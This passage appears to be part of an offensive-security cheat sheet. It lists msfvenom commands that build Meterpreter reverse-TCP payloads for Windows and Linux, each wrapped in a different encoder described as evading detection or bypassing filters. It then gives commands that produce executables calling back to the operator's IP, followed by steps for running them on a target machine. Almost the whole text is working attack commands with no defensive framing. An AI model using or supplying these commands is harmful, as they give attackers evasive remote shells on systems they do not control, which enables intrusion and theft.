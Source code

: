 XOR-based with a call to a DWORD address.

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -f c
```

Block XOR-based encoder.

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/bloxor -f exe
```

Encodes using jump and call instructions.

```
msfvenom -p linux/x86/meterpreter_reverse_tcp -e x86/jmp_call_additive -f elf
```

Encodes using CPUID instruction to evade detection.

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/context_cpuid -f exe
```

Alpha-numeric encoder, which helps bypass certain filters.

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/alpha_mixed -f raw
```

Avoids UTF-8 transformation issues.

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/avoid_utf8_tolower -f c
```

Once you have encoded your payload, here are some methods for execution:

- **Direct Execution:** If the payload is packaged as an executable (e.g., `-f exe`), you can execute it directly on the target system.

Using `alpha_mixed`:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -e x86/alpha_mixed -f exe -o alpha_mixed.exe
```

Using `avoid_utf8_tolower`:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -e x86/avoid_utf8_tolower -f exe -o avoid_utf8_tolower.exe
```

You can then execute the generated `.exe` file directly on the target machine:

```
# On the target system
./alpha_mixed.exe
# Or
./avoid_utf8_tolower.exe
```
